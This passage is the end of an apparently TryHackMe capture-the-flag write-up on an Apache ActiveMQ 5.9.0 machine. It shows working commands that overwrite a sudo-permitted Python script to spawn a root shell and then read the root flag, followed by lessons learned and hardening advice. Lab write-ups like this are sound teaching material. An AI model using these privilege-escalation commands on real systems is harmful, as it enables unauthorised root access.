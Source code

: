 **Analysis**:
- User can run `/opt/apache-activemq-5.9.0/subscribe.py` as root without password.
- This allows arbitrary code execution if the script can be modified.

### Exploit Sudo Misconfiguration
Modified the `subscribe.py` script to spawn a root shell.

**Commands**:
```bash
ls -la /opt/apache-activemq-5.9.0/subscribe.py
echo 'import os; os.setuid(0); os.system("/bin/sh")' > /opt/apache-activemq-5.9.0/subscribe.py
sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```

**Verification**:
```bash
whoami
# Output: root
```

### Capture Root Flag
Navigated to root directory and captured the flag.

**Commands**:
```bash
cd /root
ls
cat root.txt
```

**Output**:
```
root.txt
THM{***********}
```

**Root Flag**: `THM{************}`

## Conclusion

### Summary of Findings
- Successfully exploited CVE-2016-3088 in Apache ActiveMQ 5.9.0 to gain initial shell access.
- Eavesdropped on MQTT communications to understand user behavior.
- Escalated privileges via misconfigured sudo permissions on a Python script.
- Captured both user and root flags.

### Lessons Learned
- Default credentials pose significant security risks.
- Misuse of services (e.g., using a message broker for chat) can lead to information disclosure.
- Sudo configurations should be audited to prevent privilege escalation.
- Regular patching and vulnerability scanning are essential for maintaining security.

### Recommendations
- Change default credentials immediately.
- Disable unnecessary services or restrict access.
- Apply security patches promptly.
- Implement least privilege principles for user accounts.

This report provides a step-by-step guide for replicating the exploitation process in a controlled environment for educational purposes.
